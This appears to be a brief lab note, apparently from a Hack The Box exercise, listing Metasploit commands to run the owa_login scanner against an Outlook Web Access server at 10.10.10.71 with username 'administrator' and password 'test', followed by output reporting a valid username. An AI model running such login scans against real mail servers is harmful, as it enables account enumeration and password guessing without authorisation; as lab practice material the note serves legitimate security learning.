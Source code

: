 # Outlook-Web-Appplication-owa-


sudo msfdb run

search owa

use auxiliary/scanner/http/owa_login

set username administrator

set rhost 10.10.10.71

set password test


            -------10.10.10.71:443 OWA - FAILED LOGIN, BUT USERNAME +++++++++++++++++++IS VALID. +++++++++++++++0.525743915 'HTB\administrator' : 'test': SAVING TO CREDS






